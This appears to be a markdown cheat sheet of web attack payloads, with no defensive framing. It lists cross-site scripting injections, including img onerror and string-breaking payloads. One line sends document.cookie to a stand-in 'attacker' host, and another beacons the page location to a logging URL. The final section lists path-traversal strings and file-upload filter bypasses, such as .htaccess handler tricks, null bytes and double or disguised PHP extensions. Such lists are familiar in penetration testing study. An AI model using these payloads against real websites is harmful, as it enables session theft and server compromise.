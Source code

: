 # XSS easy payload

%3Cimg%20src%3D0%20onerror%3D%27alert(00)%27%2F%3E
<img src=0 onerror='alert(00)'/>
<IMG SRC= onmouseover="alert('xxs')">

text with print: <img src=1 onerror=print()>

<img src=0 onerror='alert`1`'/>

<img src=0 onerror='alert(String.fromCharCode(88,83,83))'/>

document.write("<img src=http://attacker/cookie_theif?c="+document.cookie+" />")
console.log('XSS')
(new Image()).src = "https://localhost/log_xss?from=" + window.location;
document.body.innerHTML = 'XSS';


# breaking strings

template literal: ${alert(document.domain)}
breaking string: \';alert(document.domain)//
tag attribute: " autofocus onfocus=alert(document.domain) x="
JS closing previous tag: "><img src=0 onerror=alert(1)>'
check ===location.search===
Add additional parameter (check JS code) = "</select><img%20src=0%20onerror=alert(123)>


# trasversal and fileupload

trasversal: /../../../../
trasversal: filename=../datei.php / ..%2fdatei.php
content-type= type/type

Read: AddType application/x-httpd-php .l33t / .htaccess

Null terminator= %00

Double extension: datei.php.jpg
Trailing: exploit.php.
URL encoding: exploit%2Ephp
semicolon: exploit.asp;.jpg or exploit.asp%00.jp
recursiv: exploit.p.phphp
